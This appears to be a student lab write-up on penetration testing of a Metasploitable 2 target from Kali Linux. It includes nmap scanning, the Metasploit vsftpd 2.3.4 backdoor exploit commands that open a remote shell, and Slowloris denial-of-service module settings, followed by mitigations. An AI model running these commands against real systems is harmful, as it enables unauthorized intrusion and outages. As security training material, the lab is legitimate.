






# System Hacking & DoS Simulation Lab

## Objective

To perform system exploitation and simulate a denial-of-service (DoS) attack using a structured penetration testing approach in a controlled lab environment.

---

## Environment

* Attacker: Kali Linux
* Target: Metasploitable 2
* Network: Virtual lab (internal network)

---

## Tools Used

* Nmap
* Metasploit Framework
* Slowloris (Metasploit module)

---

## Methodology

1. Target identification
2. Network scanning
3. Service enumeration
4. Exploitation
5. DoS simulation

---

# PART 1: System Exploitation

##  Target Identification

The target system IP address was identified within the local lab network.

---

###  Network Scanning

Command Used:

```bash
nmap -sV 192.168.222.131
```

### Scan Result

The scan revealed open ports and services, including a vulnerable FTP service.

### Screenshot: Nmap Scan



---

##  Service Enumeration

The FTP service was identified as:

```
* vsftpd 2.3.4
```

This version contains a known vulnerability.

---

##  Exploitation

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.222.131 
set lhost 192.168.222.129
run
```



---

##  Access Verification

```bash
whoami
```

###  Screenshot: Shell Access

> Show command execution on target



---

# PART 2: DOS Simulation (Slowloris)

## Objective

To simulate a denial-of-service attack by exhausting server resources.

---

##  Attack Setup

```bash
search slowloris
use auxiliary/dos/http/slowloris
set RHOSTS 192.168.222.131
set RPORT 80
set THREADS 50
set sockets 1000000
run
```

### Screenshot: Setup



---

##  Attack Execution

```bash
run
```

###  Screenshot: Attack Running




---

##  Impact Analysis

During the attack, the web server became slow and unable to connect.

### Screenshot: Impact



---

# Findings

* Open ports and vulnerable services identified
* FTP service exploited successfully
* Remote shell access obtained
* Web server performance degraded under DoS

---

# Risk Analysis

* Vulnerable services can lead to system compromise
* Lack of rate limiting exposes systems to DoS attacks

---

# Mitigation

* Patch and update services
* Disable unnecessary services
* Implement rate limiting
* Monitor network traffic
* configure firewall to restrict multiple request from one ip address

---

# Conclusion

This lab demonstrates how vulnerabilities can be identified and exploited, as well as how service availability can be impacted through DoS techniques. It highlights the importance of proactive security measures and controlled testing environments.

---

#  Disclaimer

All activities were conducted in a controlled lab environment for educational purposes only.
